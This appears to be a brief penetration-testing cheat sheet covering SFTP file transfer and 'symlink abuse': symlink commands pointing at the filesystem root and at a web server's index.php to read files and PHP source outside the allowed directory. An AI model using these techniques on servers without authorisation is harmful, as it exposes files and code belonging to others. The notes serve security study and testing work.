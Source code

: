 ## File transfer via SFTP protocol

### Clients: sftp, filezilla, winscp, scp

#### 1) 

    sftp USERNAME@IP_ADDRESS

#### 2) 

    put FILE.TXT

## Symlink abuse with SFTP

#### 1) 

    symlink / file/root (Gives access to the root directory of the webserver)

#### 2) 

    symlink /var/www/html/index.php /directory/test.txt (View php files with symlink abuse)
